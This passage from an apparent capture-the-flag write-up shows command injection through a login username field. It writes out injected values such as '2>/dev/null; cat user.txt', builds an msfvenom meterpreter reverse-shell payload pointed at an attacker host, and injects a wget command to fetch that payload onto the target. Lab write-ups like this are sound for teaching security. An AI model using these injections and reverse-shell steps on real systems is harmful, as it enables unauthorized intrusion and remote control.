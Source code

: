 That's nice: The login is running code. In this case, trying to execute get.sh in the user "azer"s home dir. It looks like we can execute code on the server by providing it in the username field. 

Trying `2>/dev/null; ls` should provide us with some good response as we ignore the error on the first command and add a next command to it.

And there we are with RCE and directly seeing the users flag:

![alt text](../assets/images/Screenshot_20240909_195040.png)

The user flag can be seen by `2>/dev/null; cat user.txt`


# Reverse shell

Alright, to make our live easier, let's run a reverse shell on the target connecting back to port 4444 on our machine.
For this I like to use [revshells](https://www.revshells.com/) as it provides an easy way to configure both parties in the mix.
To upload the shell we use a simple wget command on the target machine.


```bash
# Generating the meterpreter payload to be executed on the target
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=XX.XX.XX.10 LPORT=4444 -f elf -o reverse.elf

# Starting the good ol' python web server 
python3 -m http.server 8080
```
Now uploading the shell with wget `2>/dev/null; wget XX.XX.XX.10/reverse.elf`
